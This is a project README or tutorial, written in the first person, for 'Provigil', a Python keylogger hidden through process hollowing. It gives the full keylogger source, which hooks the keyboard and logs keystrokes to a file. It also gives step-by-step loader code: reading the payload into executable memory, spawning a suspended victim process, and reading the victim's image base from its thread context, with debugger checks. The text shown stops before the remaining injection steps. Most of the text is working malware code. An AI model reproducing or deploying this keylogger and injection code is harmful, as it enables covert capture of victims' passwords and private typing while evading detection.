

# 💀 Provigil : Trivial keylogger with Process Hollowing

## Synopsis

Provigil is a simple keylogger wrote in python which uses process injection to hide it self. The Provigil project is split in two modules : the first one is **Provigil.py** which contains the keylogger and the second one is **ProLoader.py **whose purpose is to inject the keylogger (Provigil.py) into a process.

.png>)

There is differents techniques to inject malicious code into a victim process such as : _Extra Windows Memory injection, Classic DLL injection_, ect.. Provigil uses **Process Hollowing** technique. The latter consists to hollow out legitimate code from the target process' memory and replaces it with a malicious executable.



## Keylogger&#x20;

First, let's focus on **Provigil.py.**

```python
import pyWinhook as pyHook
import pythoncom, sys, logging


class KeyLogger:

    buffer = ""
    file_log = 'C:\\Users\toto\Documents\log.txt'

    def __init__(self):
        self.init_log()
        

    def init_log(self):
        logging.basicConfig(filename=self.file_log, level=logging.DEBUG, format='%(message)s')

    def KeyboardEvent(self, event):
        if event.Ascii == 13:
            logging.log(10, self.buffer)
            self.buffer = ""
        elif event.Ascii == 27:
            exit(0)
        else:
            self.buffer += chr(event.Ascii)
        return True

    def keyCapture(self):
        hooks_manager = pyHook.HookManager()
        hooks_manager.KeyDown = self.KeyboardEvent
        hooks_manager.HookKeyboard()
        pythoncom.PumpMessages()
```

## Step 1 : Load Keylogger Executable

The first step consists to load the Provigil keylogger executable in memory.&#x20;

The Windows API function call **CreateFileW **returns a handle that can be used to access the file. We use it to have different information about the file.

```python
hReplacement = HANDLE()
        hReplacement = windll.kernel32.CreateFileW(
        self.PAYLOAD_EXE,
        GENERIC_READ,
        FILE_SHARE_READ,
        0,
        OPEN_EXISTING,
        0,
        0)
        if (hReplacement == -1):
            logger.error(f"\tCreateFile error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Thanks to handler we can get the keylogger program size to allocate memory. I use the WinAPI function **VirtualAlloc **wich set automatically the memory initialized to zero. `allocated_adress `contains now the base address of the allocated region of pages.

```python
file_size = windll.kernel32.GetFileSize(hReplacement, 0)

allocated_address = windll.kernel32.VirtualAlloc(
            0,
            file_size,
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE,
        )
        if allocated_address == 0:
            logger.error(f"\tVirtualAlloc error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Then we call **ReadMemory **function to load the file at the address we previously allocated.

```python
totalNumberofBytesRead = DWORD()
if windll.kernel32.ReadFile(
    hReplacement, 
    LPVOID(allocated_address), 
    file_size, 
    byref(totalNumberofBytesRead), 
    0) == 0:
    logger.error(f"\tError when Reading malware: {FormatError(GetLastError())}")
    sys.exit(1)
windll.kernel32.CloseHandle(hReplacement)
```

### Check

Refering to the logs, keylogger process has been loaded at address `0x2e5149e0000 `

.png>)

We debug the process thanks WinDbg to inspect the memory. Thus, we can see that the process header is corretly load at the correponding address.

.png>)

## Step 2 : Get Victim Process' Address

Now at this step, we have to spawn the victim process and get his base address.


Let's use **CreateProcessA **Windows function. It creates the victim process in suspended state also it fills the two data structures `startup_`_`info` and _`process_info`. Those structures will give precious informations for the next steps.

```python
startup_info = StartupInfo()
process_info = ProcessInfo()

if windll.kernel32.CreateProcessA(
                    None,
                    create_string_buffer(bytes(self.TARGET, encoding="ascii")),
                    None,
                    None,
                    False,
                    CREATE_SUSPENDED,
                    None,
                    None,
                    byref(self.startup_info),
                    byref(self.process_info),
        ) == 0:
            logger.error(f"\tCreateProcess {self.TARGET} error: {FormatError(GetLastError())}")
            sys.exit(1)
```

Once the victim process created, we get  his thread context by using **GetThreadContext.**

```python
context = Context64()
self.context.ContextFlags = CONTEXT_FULL
if windll.kernel32.GetThreadContext(self.process_info.hThread, byref(self.context)) == 0:
            logger.error(f"\tError in GetThreadContext: {FormatError(GetLastError())}")
            sys.exit(1)
```

The `context` data structure give us registers value information about the current thread of the victim process. Security Researchers found that the **register Rdx** was pointing to a memory location. `16 bytes` after this location contains the address of the location of ImageBase. Knowing that, we uses **ReadProcessMemory **function to read** **the **register Rdx** wich give us the victim's image base.

```python
target_image_base = LPVOID()
if windll.kernel32.ReadProcessMemory(
                self.process_info.hProcess,
                LPCVOID(self.context.Rdx + 16),
                byref(target_image_base),
                8,
                None
        ) == 0:
            logger.error(f"\tError in ReadProcessMemory: {FormatError(GetLastError())}")
            sys.exit(1)
```

### Check

.png>)

We attach the debugger to the victim process created.

.PNG>)

Inspecting the victim thread registers, we can see `ImageBaseAddress` in the PEB structure matching the Rdx register.

.PNG>)
